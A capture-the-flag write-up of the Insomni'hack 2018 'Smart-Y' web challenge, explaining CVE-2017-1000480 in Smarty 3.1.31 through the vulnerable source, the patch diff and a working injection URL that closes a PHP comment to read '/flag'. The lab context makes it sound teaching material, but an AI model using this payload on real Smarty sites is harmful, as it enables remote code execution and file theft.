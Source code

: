 # Web - Smart-Y

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.

http://smart-y.teaser.insomnihack.ch
```

Once you find the vuln in this one, the challenge is quite easy. When you navigate on the website, you are quickly directed to `/console.php`, which source is:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

There is not much to go with, so let's try to go in `./smarty`:

![toot](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/web-Smart-y/resources/dirlisting.png)

We can go and see the [changelog](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/resources/change_log.txt) to grab the version number:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables

  19.11.2016
  - bugfix inheritance root child templates containing nested {block}{/block} could call sub-bock content from parent
    template https://github.com/smarty-php/smarty/issues/317
  - change version checking

 11.11.2016
  - bugfix when Smarty is using a cached template object on Smarty::fetch() or Smarty::isCached() the inheritance data
    must be removed https://github.com/smarty-php/smarty/issues/312
  - smaller speed optimization
```

Next thing you want to do is search for public vulnerabilities, and there is one that can be of interest:
```
CVE-2017-1000480: Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name
```

Sadly, there is no exploit, so we have to search for it on our own. Grepping the [current changelog](https://github.com/smarty-php/smarty/blob/master/change_log.txt#L71) for `display()` shows us that the patch was released on 2017-07-21, which leads us to [this commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61).

There we see what really went down:
```php
$output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") . "\n  from \"" . $_template->source->filepath . "\" */\n\n";
```

```php
$output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") . "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

Someone was dynamically generating multilines comments inside a PHP code, and was not properly handlin `*/` in the template name. That allows for code injection in Smarty:
![toot](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/web-Smart-y/resources/execphp.png)

So let's [get the flag](http://smart-y.teaser.insomnihack.ch/console.php?id=*/echo%20file_get_contents(%27/flag%27);/*):
```
INS{why_being_so_smart-y} The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```
